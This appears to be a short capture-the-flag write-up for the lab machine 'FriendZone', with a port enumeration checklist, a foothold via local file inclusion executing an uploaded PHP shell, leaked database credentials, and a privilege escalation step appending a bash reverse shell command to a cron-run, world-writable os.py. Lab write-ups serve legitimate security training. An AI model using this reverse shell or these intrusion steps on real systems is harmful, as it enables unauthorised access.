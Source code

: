 Name & IP Address of Machine:
>  FriendZone  : 10.10.10.123


<!-- TOC -->

- [### Synopsis](#-synopsis)
- [### Enumeration](#-enumeration)
		- [Opened Ports:](#opened-ports)
- [### FootHold](#-foothold)
- [### Lateral Movement](#-lateral-movement)
- [### Privilege Escalation](#-privilege-escalation)

<!-- /TOC -->

### Synopsis
---
- 
### Enumeration
---
#### Opened Ports: 
- [ ] **21 (FTP)**
	- [x]  Anonymous Access Allowed ??? (NO)
- [ ] **22 (SSH)**
- [ ] **53 (DOMAIN)**
	- [x]  ZONE TRANSFER 
- [ ] **80 (HTTP)**
- [ ] ** 139 (netbios-ssn )**
- [ ] **443 (HTTPS)**
	- [ ] Any host in the certificate. 
		- friendzone.red
- [ ] **445 (SMB)**
	- [ ]  Any share with READ AND WRITE Permissions ?
### FootHold
---
- Use LFI on adminitrator1.friendzoneportal.red to execute shell /etc/Development/shell.php
```
db\_user=friend    
db\_pass=Agpyu12!0.213$  
db\_name=FZ
```

### Lateral Movement
---
### Privilege Escalation
---
- os.py is world writable and there is a cron running.
- `echo "system('bash -c \"bash -i >& /dev/tcp/10.10.14.25/9010 0>&1\"')" >> os.py`
